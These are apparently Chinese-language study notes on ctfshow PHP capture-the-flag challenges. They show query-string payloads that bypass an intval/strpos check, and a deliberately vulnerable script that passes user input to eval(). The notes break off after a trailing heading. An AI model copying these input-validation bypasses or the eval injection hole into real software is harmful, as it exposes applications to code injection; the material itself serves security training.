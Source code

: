 <a href="https://www.php.net/str_pos">strpos()函数</a>
```php
 <?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
} 
```
payload
```php
对于strpos()函数，我们可以利用换行进行绕过（%0a）
payload:?num=%0a010574
也可以小数点绕过
payload：?num=4476.0
因为intval()函数只读取整数部分
还可以八进制绕过(%20是空格的url编码形式)
payload：?num=%20010574
?num= 010574 // 前面加个空格
?num=+010574 
?num=+4476.0
```

<a href="https://blog.csdn.net/EC_Carrot/article/details/109525162">MD5比较漏洞 弱比较、强比较、强碰撞</a></br>
<a href="https://www.jianshu.com/p/c9089fd5b1ba">MD5碰撞的一些例子</a>


<a href="https://www.jb51.net/article/42425.htm">php中OR与|| AND与&&的区别总结</a></br>
<a href="https://www.php.net/manual/zh/class.reflectionclass.php">ReflectionClass 类</a>
```php
 <?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
?>
```
注意点:
